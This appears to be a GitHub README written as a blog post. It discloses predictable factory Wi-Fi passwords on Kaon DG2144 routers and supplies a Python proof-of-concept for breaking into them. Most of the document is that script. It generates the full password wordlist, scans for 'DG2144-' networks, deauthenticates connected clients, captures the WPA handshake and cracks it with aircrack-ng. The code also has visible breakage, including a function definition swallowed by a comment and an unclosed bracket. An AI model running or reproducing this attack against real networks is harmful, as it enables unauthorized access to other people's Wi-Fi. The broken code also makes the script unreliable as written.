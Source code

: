 # WIikaonWi
a script to take advantage of simple wifi credentials in the KAON DG2144 and other similar devices.
Wikaonwi: A Factory Wi-Fi Credential Vulnerability

Date: 1/21/25 9:35 PM

Today, I faced a setback when I was declined a position in the cyber security field due to a prior criminal conviction related to fraud. However, I refuse to let this discourage me. Instead, I am determined to showcase my skills and resilience by releasing another piece of my work. In a future post, I will also cover the details surrounding the charges that led to this situation. This is just one step in my journey, and I won’t allow past challenges to define my future.
Wikaonwi:

In the ever-evolving landscape of cybersecurity, vulnerabilities can often be found in the most unexpected places. One such vulnerability has been identified in the Kaon DG2144 router, where the factory Wi-Fi password is not as random as one might expect. This flaw can lead to the easy recovery of a device's Wi-Fi credentials, posing a significant risk to users. In this blog post, we will explore the details of this vulnerability, how it can be exploited, and provide a proof of concept for educational purposes.
Understanding the Vulnerability

The Kaon DG2144 router has a predictable pattern in its factory-set Wi-Fi passwords. Instead of being randomly generated, the passwords are based on the device's serial number, which follows a specific format. For example, consider the following serial numbers:


        

        BS10096321004321

        BS10096123001234

        BS10096XXX00XXXX

        

    

The passwords are constructed using a fixed prefix (BS10096) followed by a combination of numbers, making them susceptible to brute-force attacks. The predictable nature of these passwords means that an attacker can easily generate all possible combinations and attempt to gain access to the Wi-Fi network.These devices also have a prefixed SSID which makes them easier to identify being DG2144-XXXX
How We Can Exploit This Vulnerability

To exploit this vulnerability, an attacker can follow these steps:

    Generate All Possible Combinations: Using the known format of the password, generate all possible combinations based on the serial number structure. The format is as follows: BS10096(000-999)00(0000-9999).
    Scan for Target Wi-Fi Networks: Identify Wi-Fi networks that start with the SSID prefix DG2144-.
    Deauthenticate Connected Clients: Use a deauthentication attack to disconnect clients from the target Wi-Fi network, forcing the router to send a handshake when clients reconnect.
    Capture the Handshake: Monitor the network to capture the handshake, which contains the necessary information to crack the password.
    Crack the Handshake: Use the generated combinations to attempt to crack the captured handshake and recover the Wi-Fi password.

Proof of Concept Code

Below is a Python script that demonstrates the steps outlined above. This script is for educational purposes only and should not be used for malicious activities.


```        
        
import subprocess
import time
import os
import re

# Replace wlan0 with your wireless interface
def generate_combinations():
    first_part = "BS10096"
    combinations = []

    for i in range(1000): 
        for j in range(10000): 
            combinations.append(f"{first_part}{i:03}00{j:04}")
    return combinations

def save_combinations_to_file(combinations, filename='combinations.txt'):
    with open(filename, 'w') as f:
        for combo in combinations:
            f.write(combo + '\n')

def scan_for_wifi():
    print("Scanning for Wi-Fi networks...")
    output = subprocess.check_output(["airodump-ng", "wlan0"], universal_newlines=True) 
    return output

def extract_bssid(output, target_ssid):
    bssid_pattern = re.compile(r'([0-9A-Fa-f:]{17})\s+.*\s+{}\s+'.format(target_ssid))
    bssids = bssid_pattern.findall(output)
    return bssids


def deauth_clients(bssid):
    print(f"Deauthenticating clients from {bssid}...")
    subprocess.run(["aireplay-ng", "--deauth", "10", "-a", bssid, "wlan0"]) 

def capture_handshake(bssid, output_file='captured_handshake.cap'):
    print(f"Capturing handshake for {bssid}...")
    subprocess.run(["airodump-ng", "--bssid", bssid, "-c", "6", "-w", output_file, "wlan0"]) 
    time.sleep(30)  # Wait for the handshake def crack_handshake(bssid, combinations_file='combinations.txt', handshake_file='captured_handshake.cap'):
    print(f"Cracking handshake for {bssid}...")
    subprocess.run(["aircrack-ng", "-w", combinations_file, "-b", bssid, handshake_file])

def print_banner():
    banner = r"""
                 d8, d8b                                                    d8,
                `8P  ?88                                                   `8P 
                      88b                                                      
 ?88   d8P  d8P  88b  888  d88' d888b8b   d8888b   88bd88b  ?88   d8P  d8P  88b
 d88  d8P' d8P'  88P  888bd8P' d8P' ?88  d8P' ?88  88P' ?8b d88  d8P' d8P'  88P
 ?8b ,88b ,88'  d88  d88888b   88b  ,88b 88b  d88 d88   88P ?8b ,88b ,88'  d88 
 `?888P'888P'  d88' d88' `?88b,`?88P'`88b`?8888P'd88'   88b `?888P'888P'  d88' 

    """                                                                          
    print(banner)                                                                 

def main():
    print_banner()
    target_ssid = "DG2144-"
    combinations = generate_combinations()
    save_combinations_to_file(combinations)

    # Scan for Wi-Fi networks
    output = scan_for_wifi()
    # Extract BSSID dynamically
    bssids = extract_bssid(output, target_ssid)
    if not bssids:
        print("No BSSID found for the target SSID.")
        return

    print("Available BSSIDs:")
    for bssid in bssids:
        print(bssid)

    # Select the first BSSID found
    selected_bssid = bssids[0
    # Deauthenticate clients
    deauth_clients(selected_bssid)
    # Capture the handshake
    capture_handshake(selected_bssid)
    # Crack the handshake
    crack_handshake(selected_bssid)
    
if __name__ == "__main__":
    main()

    
```
    

Conclusion

The vulnerability in the Kaon DG2144 router highlights the importance of strong, unpredictable passwords for network security. By understanding how such vulnerabilities can be exploited, users can take proactive measures to secure their devices. It is crucial to change factory-set passwords to unique, complex ones to mitigate the risk of unauthorized access. Always stay informed about potential vulnerabilities in your devices and take necessary precautions to protect your network.
